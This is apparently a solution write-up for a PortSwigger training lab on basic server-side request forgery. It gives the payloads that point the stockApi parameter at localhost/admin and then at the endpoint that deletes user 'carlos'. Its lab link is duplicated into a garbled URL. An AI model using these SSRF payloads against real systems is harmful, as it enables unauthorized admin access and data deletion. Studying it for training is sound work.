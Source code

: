 # Lab: Basic SSRF against the local server
# https://portswigger.net/web-security/learning-pathhttps://portswigger.net/web-security/learning-paths/ssrf-attacks/ssrf-attacks-common-ssrf-attacks/ssrf/lab-basic-ssrf-against-localhost#s/ssrf-attacks/ssrf-attacks-common-ssrf-attacks/ssrf/lab-basic-ssrf-against-localhost#
```bash
# Send the stock request to repeater update the code and send request.

stockApi=http://localhost/admin

# Response:
<span>carlos - </span>
<a href="/admin/delete?username=carlos">Delete

```

```bash
# You can render response from burp and delete carlos or you can right click and show response on browser to delete carlos. 
# There is 1 more way to delete carlos thats:

stockApi=http://localhost/admin/delete?username=carlos

# Send the request and it carlos will be deleted.
```
